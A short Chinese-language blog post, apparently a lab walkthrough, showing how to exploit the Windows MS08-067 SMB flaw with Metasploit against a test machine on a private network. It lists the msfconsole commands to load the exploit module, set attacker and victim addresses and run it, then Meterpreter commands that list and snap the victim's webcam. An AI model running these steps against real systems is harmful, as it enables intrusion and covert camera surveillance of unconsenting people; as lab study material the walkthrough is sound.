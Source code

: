 ```yaml
---
layout: post
title:  ms08_067漏洞利用
date: 2021-03-26 11:36:12 +0900
category: exploiting
---
```


## 0x0 确定攻击者IP和受害者IP
#### 攻击机
![](/images/20210326-1.png)
#### 受害机
![](/images/20210326-2.png)

## 0x1 启动MSF
- msfconsole
- use exploit/windows/smb/ms08_067_netapi
- set lhost 192.168.88.130
- set rhost 192.168.88.139

![](/images/20210326-3.png)

- run

![](/images/20210326-4.png)

- ipconfig

![](/images/20210326-5.png)

## 0x2 启动摄像头

- webcam_list 
- webcam_snap

![](/images/20210326-6.png)